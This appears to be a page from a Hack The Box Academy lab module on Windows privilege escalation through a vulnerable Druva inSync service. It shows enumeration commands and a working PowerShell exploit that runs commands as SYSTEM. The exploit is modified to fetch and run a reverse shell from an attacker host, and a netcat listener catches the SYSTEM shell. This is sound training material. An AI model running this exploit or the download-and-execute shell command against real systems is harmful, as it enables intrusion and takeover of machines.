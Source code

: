 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/67/section/910
// Platform Version: V1
// Module ID: 67
// Module Name: Windows Privilege Escalation
// Module Difficulty: Medium
// Section ID: 910
// Section Title: Vulnerable Services
// Page Title: Hack The Box - Academy
// Page Number: 19
-->

# Vulnerable Services

**Module Name:** Windows Privilege Escalation **Page Number:** 19

#### 

#### WINDOWS PRIVILEGE ESCALATION

# Vulnerable Services

#### Enumerating Installed Programs

``` cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

#### Enumerating Local Ports

``` cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

#### Enumerating Process ID

``` powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

#### Enumerating Running Service

``` powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

## Druva inSync Windows Client Local Privilege Escalation Example

#### Druva inSync PowerShell PoC

``` powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### Modifying PowerShell PoC

``` shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

``` powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

#### Starting a Python Web Server

``` shell-session
[!bash!]$ python3 -m http.server 8080
```

#### Catching a SYSTEM Shell

``` shell-session
[!bash!]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

## Moving On

# 

# 

#### Questions

####
